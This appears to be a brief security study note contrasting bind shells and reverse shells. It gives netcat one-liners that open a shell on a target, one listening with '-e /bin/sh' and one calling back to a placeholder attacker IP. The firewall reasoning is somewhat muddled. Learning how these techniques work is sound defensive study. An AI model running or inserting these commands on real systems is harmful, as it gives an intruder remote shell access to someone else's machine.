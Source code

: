 **Bind shell**
	- Here the attacker's machine is made to connect with the victim's machine.
	- Exploits are made to run on the victims machine and made to be listening for services establishing shell
	- for example:
		- Attacker's machine: nc <target_ip> 4444
		- Target machine: nc -lvp 4444 -e /bin/sh
	- It is used when the attacker is facing issues with the firewall and such
	- It is also used when the attacker has no success with the reverse shell.

**Reverse shell**
	- Here the victims machine is made to connect to the attacker's machine getting shell access.
	- Exploits are made to run on the victim's machine and made to make connection to the attacker's machine
	- for example:
		- Attacker's machine: nc -lvp 4444
		- Target machine: nc <attacker's_ip> -e /bin/sh